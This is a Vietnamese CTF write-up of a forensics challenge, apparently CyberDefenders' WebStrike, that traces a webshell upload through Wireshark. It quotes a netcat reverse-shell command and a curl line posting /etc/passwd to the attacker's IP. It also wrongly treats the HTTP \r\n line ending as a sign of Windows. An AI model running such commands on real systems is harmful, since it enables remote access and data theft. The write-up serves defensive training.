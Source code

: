# Webstrike - Week1
Tool sử dụng trong bài: Wireshark
Scenario (tình huống): Một điểm bất thường đã được phát hiện trong mạng nội bộ của công ty chúng tôi khi nhóm dev đã tìm thấy một tệp bất thường trên webserver. Nghi ngờ có mã độc, nhóm mạng đã chuẩn bị một tệp pcap có network traffic quan trọng để phân tích cho nhóm bảo mật. Hãy phân tích gói pcap.

Với bài lần này, ta được cung cấp 1 file **pcap** được nén trong file **zip** với password **cyberdefenders.org**.

Link -> [Cyberdefend](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)

----

# Các câu hỏi
![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/5d8a7e98-1536-47c9-b6ad-2218cc47d4a6)

Tạm dịch các câu hỏi:
1. [Tìm kiếm địa chỉ IP của người tấn công](c1)
2. [Tìm kiếm user-agent của kẻ tấn công](c2)
3. [Tên của webshell đã upload](c3)
4. [Tìm kiếm directory (thư mục) để chứa file vừa được upload](c4)
5. [Webshell được gửi tới sử dụng port nào](c5)
6. [Kẻ tấn công đang cố gắng lấy đi tập tin nào](c6)

# Bài làm
## Câu  1 <a name="c1"></a>   
Vì là người tấn công thì thường là người bắt đầu gói tin, nên mình sẽ lấy địa chỉ ip source của package đầu tiên

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/e423f212-d89b-4577-99d8-89b6954aa382)

Mình thử check địa chỉ **117.11.88.124** ở tại vị trí nào bằng [Ip location](https://www.iplocation.net/)

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/3eb8b49f-b59a-4897-a0cf-c481046f9e20)

Tại đây thì mình tìm được thành phố là Tianjin thì mình thử nhập vào ô điền flag

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/4ea6b7ee-851a-4d8f-8cb2-ccc190c2fe08)

## Câu 2 <a name="c2"></a>  
Vì câu này hỏi về user-agent, ta sẽ cùng đi tìm hiểu qua user-agent là gì
Về cơ bản, user-agent là thông tin bạn gửi tới server từ trình duyệt của bạn. Có thể hiểu nó là thứ để định danh bạn. Thông thường thông tim bao gồm:
* Phiên bản của trình duyệt
* Hệ điều hành của bên bạn
* Loại thiết bị (vd: Tablet, smartphone, laptop,...)
* 1 vài thông tin khác về client software

Trước tiên chúng ta cùng thử lọc xem cái nào có điều kiện ta cần. Mình sẽ lọc 2 lần với điều kiện thỏa mãn:
* Có source từ 117.11.88.124
* Có user-agent

Vậy ta có câu lệnh để lọc: 
`ip.src==117.11.88.124 && http.user_agent`

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/ebf2e91e-f4c8-4657-934a-bd8b6afe7f50)

Mình xem thử 1 package, trong phần transmission control protocol (TCP) -> HyperText transfer protocol (Http) -> user-agent sẽ có đoạn string mình cần tìm 

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/37e1ba2e-1c63-46a5-9a71-1e4f366eae3f)

Theo như trên hình thì mình tìm được là `User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0\r\n` nhưng đuôi \r\n này là cách xuống dòng của window (Theo nguổn [StackOverflow](https://stackoverflow.com/questions/15433188/what-is-the-difference-between-r-n-r-and-n)). Và vì định dạng flag là không có đuôi \r\n nên flag chắc hẳn chỉ có phần `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`

Tiện cũng nói thêm về các cách xuống dòng ở trên các hệ điều hành:
* `\r` (Carriage return) là xuống dòng của MacOS từ trước X (Tức là từ đời dòng máy macintosh)
* `\n` (Line feed) là xuống dòng dành cho hệ điều hành macOS X, Unix và những bản phân phối của unix (Ubuntu, Kali linux,....)
* `\r\n` là xuống dòng dành cho Windows
**Với cái này mình có thể xác định được hệ điều hành của client sử dụng là gì**

Vậy mình thử nhập `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0` vào phần điền flag

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/027bbd49-90ac-4b97-b8c1-9b539d25214e)

## Câu 3 <a name="c3"></a>  
Sau khi đọc câu này, mình sẽ thử kiểm tra xem từ file pcap này mình có xuất ra được file nào không bằng cách vào File -> Export object -> HTTP...

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/e54534ba-f1e3-4354-b0c0-0a309b668e3e)

Tại đây mình thấy 2 file đáng ngờ với dạng content là **multipart/form-data** tại package 53 và 63. Mình sẽ tiến hành kiểm tra 2 Package này. Điều cần chú ý ở đây là tại mục Multipart media encapsulation xem có cái gì liên quan tới tên file không

**Package 53**

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/6ccc999f-f897-480b-819c-4b6097e99792)

**Package 63**

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/46a3cdaf-f773-42f7-bfa0-0980d093bb6b)

Tại đây mình tìm thấy 1 phần khá đáng ngờ là **(application/X-php)**. Cái này còn được gọi là MIME (Multipurpose internet mail extension) dùng để trao đổi file với mail. Tại đây là đang trao đổi với file PHP

Mình sẽ tiến hành kiểm tra 2 mục này của cả 2 package 53 và 63

**Package 53**

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/41f1b07a-312b-468b-9012-86fd6a0d99ea)

**Package 63**

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/f692d0a2-c3e2-451d-b51a-b3b49dc60d5a)

Tại package 63 có 1 đoạn hiển thị `filename=image.jpg.php`. Mình đoán cái này chính là đáp án với 2 lí do:
* Đoạn này giống như là đang cố gắng lừa người đây là 1 file hình ảnh vậy.
* Dạng của flag là \*\*\*\*\*.\*\*\*.\*\*\*

Mình thử nhập trên chỗ nhập flag là `image.jpg.php`

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/029db335-ba29-40da-adb4-8a5c75d43c22)

## Câu 4 <a name="c4"></a>  

Vì file **image.jpg.php** (webshell) đã được tải lên, mình sẽ tìm kiếm package có chứa URI dẫn tới file đó

URI (Uniform Resource identifier) cơ bản là cách để nhận định tài nguyên trên web hay server nào đó. Tài nguyên ở đây có thể hiểu theo các file như file ảnh, video,.... Cấu trúc của URI bao gồm:
* URL (Uniform resource locator) có thể hiểu đơn giản là địa chỉ chung để truy xuất tài nguyên trên mạng máy tính. URL có dạng https://www.google.com/..... trong đó:
* * **https** là giao thức kết nối
  * **www.google.com** là tên miền
  * ..... Thường là đường dẫn tới file của trang web
* URN (Uniform resource name) Cơ bản là danh tính tài nguyên ở trên server. Nó thường là ISBN và ISSN. VD: urn:isbn:0132350882

Vì chúng ta có các dữ kiện trên, mình cần tìm tới đường dẫn đã lưu phần **image.jpg.php** bằng cách sử dụng filter: `http.request.full_uri contains "image.jpg.php"`

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/df22bf25-da91-43b5-928e-b629ba9a6ca6)

Và ta có thể thấy đường dẫn tới thư mục upload là **/reviews/uploads**. Nhập thử lên web

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/151d3f90-c1a1-439a-adfe-2e751303e4ce)

## Câu 5 <a name="c5"></a>  

Với câu này, để xem phần webshell đã sử dụng port nào thì chúng ta chỉ cần check source code của nó. Vậy thì mình sẽ tiến hành xuất nó ra khỏi file pcap bằng cách vào File -> Export object -> HTTP...-> Chọn file (package 63) và Save.

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/58ea1db0-e6fa-44bb-976b-f3caeffe215f)

Mình thử mở source code lên

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/70620e8f-3bf0-4cdf-9380-a3c5a62b1a17)

Tại đây ta có thể thấy câu lệnh `nc 117.11.88.124 8080` trong đó:
* nc = netcat
* 117.11.88.124 là ip
* 8080 là port

Vậy mình thử nhập 8080 vào chỗ điền flag

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/508265b5-11cd-4909-8f55-e4af3edf65f4)

## Câu 6 <a name="c6"></a>  

Tại đây, ta có 2 thông tin sau:
* Vì ta đã biết webshell đang sử dụng Netcat nên ta có thể giới hạn lại giao thức là **tcp** hoặc **udp**.
* Vì đây là webshell nên mình cần tìm payload
* Cần lọc các giao thức http đi

Vậy ta sẽ có filter như sau:
`tcp.payload and tcp and !http`

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/39d3c58d-e559-4948-85fc-e5974ab621c9)

Tại đây mình tiến hành follow stream của package trên này. Bằng cách này chúng ta có thể biết kẻ tấn công của chúng ta đã giao tiếp gì với server

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/4f64d582-b887-4cf0-a6aa-233520a44adf)

Ở bên dưới, ta thấy có dòng `curl -X POST -d /etc/passwd http://117.11.88.124:443/`, tức họ đang cố gắng tải về file **passwd**. Thử nhập tên file vào ô điền flag

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/c175a45f-9b82-430a-8ba0-cb0fff12f9a5)


--**END**--
